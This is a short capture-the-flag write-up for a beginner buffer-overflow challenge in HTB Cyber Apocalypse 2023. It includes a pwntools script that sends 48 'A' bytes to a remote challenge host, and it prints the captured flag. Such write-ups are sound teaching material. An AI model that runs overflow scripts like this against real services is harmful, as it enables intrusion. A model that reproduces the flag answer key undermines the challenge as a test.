 # Getting_started writeup - HTB Cyber Apocalypse 2023

The binary basically tells us it has a buffer overflow and we just need to overflow the 0xdeadbeef value to become anything else.

Sending 48 A's does the trick (but can be done in less).

All the information needed to figure this out is given by the binary itself when running it. No debugging or reversing required, just send a bunch of A's

## Script
```py
from pwn import *

io = remote("167.99.86.8",30042)

io.sendline(b'A'*48)

io.interactive()
```

## Flag
`HTB{b0f_s33m5_3z_r1ght?}`
